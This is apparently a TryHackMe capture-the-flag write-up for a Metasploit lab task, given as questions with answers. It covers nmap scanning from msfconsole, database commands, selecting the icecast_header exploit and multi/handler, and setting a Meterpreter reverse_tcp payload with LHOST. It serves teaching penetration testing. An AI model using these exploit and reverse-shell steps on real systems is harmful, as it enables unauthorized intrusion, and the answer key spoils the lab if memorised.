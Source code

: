 ## Task five: Move that Shell

Metasploit comes with a built-in way to run nmap and feed it's results directly into our database. Let's run that now by using the command 

    Answer: No answer needed 
    
What service does nmap identify running on port 135?

    Answer: msrpc 
    
Let's go ahead and see what information we have collected in the database. Try typing the command hosts into the msfconsole now.

    Answer: No answer needed 
    
How about something else from the database, try the command services now.

    Answer: No answer needed
    
One last thing, try the command vulns now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully. 

    Answer: No answer needed
    
Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type use followed by a unique string found within only the target exploit. For example, try this out now with the following command use icecast. What is the full path for our exploit that now appears on the msfconsole prompt? *This will include the exploit section at the start

    Answer: exploit/windows/http/icecast_header
    
Let's now run the command search multi/handler.
Go ahead and run the command use NUMBER_NEXT_TO  exploit/multi/handler wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.

    command: use 5 exploit/multi/handler

What is the name of the column on the far left side of the console that shows up next to 'Name'?

    Answer: #
    
Now type the command use NUMBER_FROM_PREVIOUS_QUESTION. This is the short way to use modules returned by search results.

    Answer: No answer needed
    
Next, let's set the payload using this command set PAYLOAD windows/meterpreter/reverse_tcp. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command set LHOST YOUR_IP_ON_TRYHACKME. You might have to check your IP using the command ip addr, it will likely be your tun0 interface.

    Command: set PAYLOAD windows/meterpreter/reverse_tcp
    In this command, we are setting what payload we want to use for our exploit
    